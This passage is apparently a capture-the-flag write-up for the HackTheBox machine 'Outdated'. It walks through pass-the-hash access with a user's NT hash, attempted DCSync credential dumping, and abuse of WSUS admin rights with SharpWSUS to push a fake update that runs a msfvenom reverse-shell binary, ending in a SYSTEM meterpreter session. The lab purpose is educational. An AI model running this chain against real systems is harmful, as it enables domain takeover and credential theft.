[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing RDP protocol database
[*] Initializing LDAP protocol database
[*] Initializing SMB protocol database
[*] Initializing MSSQL protocol database
[*] Initializing WINRM protocol database
[*] Initializing SSH protocol database
[*] Initializing FTP protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.10.11.175    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:outdated.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.175    445    DC               [+] outdated.htb\sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5


┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.11.175 -u sflowers -H 1FCDB1F6015DCB318CC77BB2BDA14DB5
SMB         10.10.11.175    5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:outdated.htb)
HTTP        10.10.11.175    5985   DC               [*] http://10.10.11.175:5985/wsman
WINRM       10.10.11.175    5985   DC               [+] outdated.htb\sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5 (Pwn3d!)
```

It seems that I can open a shell using `evil-winrm`.

# Shell as `NT authority\SYSTEM`

Let's review BloodHound again to find path from `sflowers` to `Domain Admins`.



I think we have to exploit `DCSync` permission this time.
Let's upload `Invoke-Mimikatz.ps1` and try do use `DCSync` attack.

```bash
*Evil-WinRM* PS C:\Users\sflowers\Documents> Invoke-Mimikatz -Command "lsadump::dcsync /domain:outdated.htb /user:Administrator"
Access denied 


┌──(kali㉿kali)-[~/htb]
└─$ impacket-secretsdump -hashes :1FCDB1F6015DCB318CC77BB2BDA14DB5 outdated.htb/sflowers@10.10.11.175
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up...
```

Unfortunately, it's not successful. I tried both Windows & Linux abusing methods, but none of these worked..

Since it's not working, let's investigate with `winPEAS`

```bash
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\winPEASx64.exe

ÉÍÍÍÍÍÍÍÍÍ͹ Installed Applications --Via Program Files/Uninstall registry--
È Check if you can modify installed software https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software                  
    C:\Program Files\Common Files
    C:\Program Files\desktop.ini
    C:\Program Files\Hyper-V
    C:\Program Files\internet explorer
    C:\Program Files\Microsoft SQL Server
    C:\Program Files\MSBuild
    C:\Program Files\PackageManagement
    C:\Program Files\Reference Assemblies
    C:\Program Files\Uninstall Information
    C:\Program Files\Update Services
    ==>  C:\Program Files\Update Services\LogFiles\Change.log (WSUS Administrators [AllAccess])                                                         
    ==>  C:\Program Files\Update Services\LogFiles\SoftwareDistribution.log (WSUS Administrators [AllAccess])    


ÉÍÍÍÍÍÍÍÍÍ͹ Checking WSUS
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#wsus                                                                
    WSUS is using http: http://wsus.outdated.htb:8530
È You can test https://github.com/pimps/wsuxploit to escalate privileges
    And UseWUServer is equals to 1, so it is vulnerable!
```

Based on the scan, `WSUS` (Windows Update) might be vulnerable.
Let's take a look current user's info.

```bash
*Evil-WinRM* PS C:\Users\sflowers\Documents> net user sflowers /domain
User name                    sflowers
Full Name                    Susan Flowers
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/20/2022 10:04:09 AM
Password expires             Never
Password changeable          6/21/2022 10:04:09 AM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   11/29/2024 1:23:16 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*WSUS Administrators
Global Group memberships     *Domain Users
The command completed successfully.
```

There is an unusual group membership : `WSUS Administrators`.
Based on `Hacktricks` research, it might be useful if the update server is not set properly.

Here's the article.

```sql
WSUS
You can compromise the system if the updates are not requested using httpS but http.

You start by checking if the network uses a non-SSL WSUS update by running the following:

Copy
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
If you get a reply such as:

Copy
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate
      WUServer    REG_SZ    http://xxxx-updxx.corp.internal.com:8535
And if HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer is equals to 1.

Then, it is exploitable. If the last registry is equals to 0, then, the WSUS entry will be ignored.
```

Let's check the Update server.

```cmd
*Evil-WinRM* PS C:\Users\sflowers\Documents> reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer                               
   
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate        
    WUServer    REG_SZ    http://wsus.outdated.htb:8530


*Evil-WinRM* PS C:\Users\sflowers\Documents> reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer                         
                                                                            
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate\AU     
    UseWUServer    REG_DWORD    0x1 
```

It is vulnerable! The update server is `http://wsus.outdated.htb:8530` which is not using `https` protocol. Plus, the registry key of `HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate\AU` is set to `0x1` which means it's enabled.

Let's use `dig` command to find `wsus.outdated.htb`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ dig wsus.outdated.htb @10.10.11.175

; <<>> DiG 9.20.0-Debian <<>> wsus.outdated.htb @10.10.11.175
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 39294
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 2, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;wsus.outdated.htb.             IN      A

;; ANSWER SECTION:
wsus.outdated.htb.      3600    IN      CNAME   dc.outdated.htb.
dc.outdated.htb.        1200    IN      A       10.10.11.175

;; Query time: 132 msec
;; SERVER: 10.10.11.175#53(10.10.11.175) (UDP)
;; WHEN: Fri Nov 29 12:54:25 EST 2024
;; MSG SIZE  rcvd: 79
```

The IP address for `wsus.outdated.htb` is `10.10.11.175`.
Let's register it to `/etc/hosts`.

Let's try using `SharpWSUS` tool provided by:
https://github.com/nettitude/SharpWSUS

And here's the reference for this attack:
https://swisskyrepo.github.io/InternalAllTheThings/active-directory/deployment-wsus/

The usage of this tool is as follows;

```bash
 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team


Commands listed below have optional parameters in <>.

Locate the WSUS server:
    SharpWSUS.exe locate

Inspect the WSUS server, enumerating clients, servers and existing groups:
    SharpWSUS.exe inspect

Create an update (NOTE: The payload has to be a windows signed binary):
    SharpWSUS.exe create /payload:[File location] /args:[Args for payload] </title:[Update title] /date:[YYYY-MM-DD] /kb:[KB on update] /rating:[Rating of update] /msrc:[MSRC] /description:[description] /url:[url]>

Approve an update:
    SharpWSUS.exe approve /updateid:[UpdateGUID] /computername:[Computer to target] </groupname:[Group for computer to be added too] /approver:[Name of approver]>

Check status of an update:
    SharpWSUS.exe check /updateid:[UpdateGUID] /computername:[Target FQDN]

Delete update and clean up groups added:
    SharpWSUS.exe delete /updateid:[UpdateGUID] /computername:[Target FQDN] </groupname:[GroupName] /keepgroup>
```

Locate WSUS server.

```bash
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe locate

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Locate WSUS Server
WSUS Server: http://wsus.outdated.htb:8530

[*] Locate complete
```

Inspect WSUS server.

```bash
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe inspect

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Inspect WSUS Server

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
DC, 8530, c:\WSUS\WsusContent


####################### Computer Enumeration #######################
ComputerName, IPAddress, OSVersion, LastCheckInTime
---------------------------------------------------
dc.outdated.htb, dead:beef::201, 10.0.17763.1432, 11/29/2024 8:14:58 PM

####################### Downstream Server Enumeration #######################
ComputerName, OSVersion, LastCheckInTime
---------------------------------------------------

####################### Group Enumeration #######################
GroupName
---------------------------------------------------
All Computers
Downstream Servers
Unassigned Computers

[*] Inspect complete
```

To run further exploit, I need to upload two more binaries;
- Window Signed `PsExec64.exe`
- Reverse shell binary generated by `msfvenom`
  `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=9000 -f exe -o rshell.exe`

Then, let's create WSUS update.

```bash
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe create /payload:"C:\Users\sflowers\Documents\PsExec64.exe" /args:" -accepteula -s -d C:\Users\sflowers\Documents\rshell.exe" /title:"WSUS Privesc"

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Create Update
[*] Creating patch to use the following:
[*] Payload: PsExec64.exe
[*] Payload Path: C:\Users\sflowers\Documents\PsExec64.exe
[*] Arguments:  -accepteula -s -d C:\Users\sflowers\Documents\rshell.exe
[*] Arguments (HTML Encoded):  -accepteula -s -d C:\Users\sflowers\Documents\rshell.exe

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
DC, 8530, c:\WSUS\WsusContent

ImportUpdate
Update Revision ID: 30
PrepareXMLtoClient
InjectURL2Download
DeploymentRevision
PrepareBundle
PrepareBundle Revision ID: 31
PrepareXMLBundletoClient
DeploymentRevision

[*] Update created - When ready to deploy use the following command:
[*] SharpWSUS.exe approve /updateid:53d6f7d2-801b-41fe-9ba9-dae4d213a255 /computername:Target.FQDN /groupname:"Group Name"

[*] To check on the update status use the following command:
[*] SharpWSUS.exe check /updateid:53d6f7d2-801b-41fe-9ba9-dae4d213a255 /computername:Target.FQDN

[*] To delete the update use the following command:
[*] SharpWSUS.exe delete /updateid:53d6f7d2-801b-41fe-9ba9-dae4d213a255 /computername:Target.FQDN /groupname:"Group Name"

[*] Create complete
```

It's providing command lines for further steps.
- Deploy : `SharpWSUS.exe approve /updateid:53d6f7d2-801b-41fe-9ba9-dae4d213a255 /computername:Target.FQDN /groupname:"Group Name"`
- Check : `SharpWSUS.exe check /updateid:53d6f7d2-801b-41fe-9ba9-dae4d213a255 /computername:Target.FQDN`
- Delete : `SharpWSUS.exe delete /updateid:53d6f7d2-801b-41fe-9ba9-dae4d213a255 /computername:Target.FQDN /groupname:"Group Name"`

```bash
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe approve /updateid:53d6f7d2-801b-41fe-9ba9-dae4d213a255 /computername:dc.outdated.htb /group
name:"Group Name"

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Approve Update

Targeting dc.outdated.htb
TargetComputer, ComputerID, TargetID
------------------------------------
dc.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1
Group Exists = False
Group Created: Group Name
Added Computer To Group
Approved Update

[*] Approve complete

```

And, let's open a listener using `msfconsole`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfconsole
Metasploit tip: Use help <command> to learn more about any command

<SNIP>

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf6 exploit(multi/handler) > set LPORT 9000
LPORT => 9000
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:9000 
[*] Sending stage (201798 bytes) to 10.10.11.175
[*] Meterpreter session 1 opened (10.10.14.14:9000 -> 10.10.11.175:49482) at 2024-11-29 14:04:57 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

